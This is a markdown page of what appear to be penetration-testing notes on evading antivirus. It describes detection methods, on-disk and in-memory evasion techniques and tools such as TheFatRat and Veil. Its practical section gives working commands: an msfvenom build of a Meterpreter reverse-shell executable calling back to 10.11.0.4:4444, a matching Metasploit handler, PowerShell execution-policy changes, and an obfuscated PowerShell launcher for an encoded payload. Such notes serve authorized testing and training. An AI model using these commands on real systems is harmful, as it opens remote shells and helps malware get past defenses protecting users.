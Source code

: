 # AV Evasion

### Methods of Detecting Malicious Code

**Signature-Based Detection**

* Identifies known malware based on predefined signatures.

**Heuristic-Based Detection**

* Analyzes the behavior of code to identify potential threats based on heuristics.

**Behavioral-Based Detection**

* Examines the behavior of code during execution to identify suspicious activities.

#### ON-Disk Evasion

**Packers**

* Tools that compress or encrypt executable files to obfuscate their content.

**Obfuscators**

* Techniques that obscure the code's logic and structure to make it harder to analyze.

**Crypters**

* Tools that encrypt executable files to evade signature-based detection.

**Software Protectors**

* Programs that protect executable files from analysis and tampering.

#### In-Memory Evasion

**Remote Process Memory Injection**

* Injecting code into the memory space of a remote process.

**Reflective DLL Injection**

* Loading a DLL into a process's memory without putting it on disk.

**Process Hollowing**

* Creating a new suspended process and replacing its memory space with malicious code.

**Inline Hooking**

* Modifying function pointers to redirect execution flow.

#### Practical

**Manual**

*   **Simple Reverse Shell Binary:**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f exe > binary.exe
    ```
*   **PowerShell ExecutionPolicy:**

    ```powershell
    powershell Get-ExecutionPolicy -Scope CurrentUser
    powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
    powershell Get-ExecutionPolicy -Scope CurrentUser
    ```
*   **Metasploit One-Line Command:**

    ```bash
    msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LPORT 4444; set LHOST 192.168.1.6"
    ```
*   **PowerShell AV Bypass Payload:**

    ```powershell
    $jHs = '<BASE64_ENCODED_PAYLOAD>'
    $e = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($jHs))
    $TmU = "-e "
    if([IntPtr]::Size -eq 8){
        $YZfX = $env:SystemRoot + "\syswow64\WindowsPowerShell\v1.0\powershell"
        iex "& $YZfX $TmU $e"
    } else {
        iex "& powershell $TmU $e"
    }
    ```

**Tools**

* **Shelter:**
  * A tool for binary analysis and evasion.
* **TheFatRat:**
  * An easy-to-use tool for generating backdoors with evasion capabilities.
* **Empire:**
  * A PowerShell and Python post-exploitation framework with AV evasion features.
* **Veil:**
  * A framework for generating various types of shellcode, including evasion techniques.
